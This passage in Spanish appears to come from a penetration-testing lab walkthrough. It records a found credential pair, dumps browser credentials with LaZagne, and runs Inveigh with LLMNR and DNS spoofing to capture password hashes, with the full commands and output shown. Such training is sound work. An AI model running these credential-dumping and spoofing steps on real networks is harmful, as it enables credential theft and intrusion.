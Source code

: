 Ahora tenemos un nuevo par de credenciales: `mssqladm:DBAilfreight1!`.

Antes de seguir, verifiquemos si hay otras credenciales. Vemos que Firefox está instalado, así que podemos usar la herramienta [LaZagne](https://github.com/AlessandroZ/LaZagne) para intentar volcar cualquier credencial guardada en el navegador. No tuvimos suerte, pero siempre vale la pena intentarlo.

  Share Hunting

```r
c:\Users\ilfserveradm\Documents> lazagne.exe browsers -firefox

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 6f898230-c272-4f85-875c-9f7b354ce485
[+] System masterkey decrypted for 9ccbb5e8-66c9-4210-a46c-a72e8f750734
[+] System masterkey decrypted for 08ed962e-44d9-4e2c-9985-392b699c25ae
[+] System masterkey decrypted for d4bfcc8b-5eec-485d-8adb-9ed4ae5656d6

[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 3.29700016975
```

También vale la pena ejecutar [Inveigh](https://github.com/Kevin-Robertson/Inveigh) una vez que tengamos administrador local en un host para ver si podemos obtener hashes de contraseña para cualquier usuario.

  Share Hunting

```r
PS C:\Users\ilfserveradm\Documents> Import-Module .\Inveigh.ps1
PS C:\Users\ilfserveradm\Documents> Invoke-Inveigh -ConsoleOutput Y -FileOutput Y

[*] Inveigh 1.506 started at 2022-06-22T15:03:32
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 172.16.8.50
[+] Spoofer IP Address = 172.16.8.50
[+] ADIDNS Spoofer = Disabled
[+] DNS Spoofer = Enabled
[+] DNS TTL = 30 Seconds
[+] LLMNR Spoofer = Enabled
[+] LLMNR TTL = 30 Seconds
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer = Disabled
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] HTTPS Capture = Disabled
[+] HTTP/HTTPS Authentication = NTLM
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] WPAD Response = Enabled
[+] Kerberos TGT Capture = Disabled
[+] Machine Account Capture = Disabled
[+] Console Output = Full
[+] File Output = Enabled
[+] Output Directory = C:\Users\ilfserveradm\Documents
WARNING: [!] Run Stop-Inveigh to stop
[*] Press any key to stop console output
[+] [2022-06-22T15:04:05] TCP(445) SYN packet detected from 172.16.8.20:55623
```
